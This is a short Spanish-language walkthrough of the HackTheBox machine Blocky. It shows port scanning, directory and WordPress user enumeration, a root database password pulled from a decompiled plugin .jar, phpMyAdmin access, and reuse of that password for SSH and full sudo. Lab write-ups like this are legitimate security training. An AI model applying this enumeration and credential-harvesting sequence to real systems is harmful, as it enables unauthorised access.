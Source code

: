 # Initial Scan
```nmap
21/tcp    open  ftp       ProFTPD 1.3.5a
22/tcp    open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
25565/tcp open  minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

# Enum
## HTTP
### Gobuster
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/wiki (Status: 301)
/wp-admin (Status: 301)
/wp-content (Status: 301)
/wp-includes (Status: 301)
```
### Wpscan
```
[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

### Plugins

Vine buscando cobre y encontre oro :v , iba a checekar por plugins vulnerables y sin embargo encontre un archivo.jar

Descargamos, decompliamos 
```
http://www.javadecompilers.com/processing
```
Y analizamos
```
public BlockyCore() {
        this.sqlHost = "localhost";
        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }
```

### Phpmyadmin

Como vimos antes haciendo gobusting encontramos phpmyadmin funcionando en el servidor, usamos las creds de antes y entramos sin problemas 

Pasamos al modo de SQL
```SQL
SELECT * FROM wp_users WHERE user = "notch";
```
Como respuesta a esta query obtenemos las credenciales de notch
```
notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
Faltarían dehashearlas, pero vamos a comprobar si las contraseñas se han usado en el ssh para algun usuario y efectivamente el user notch tiene la misma pass que en el phpmyadmin

# Privesc

```
sudo -l

Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
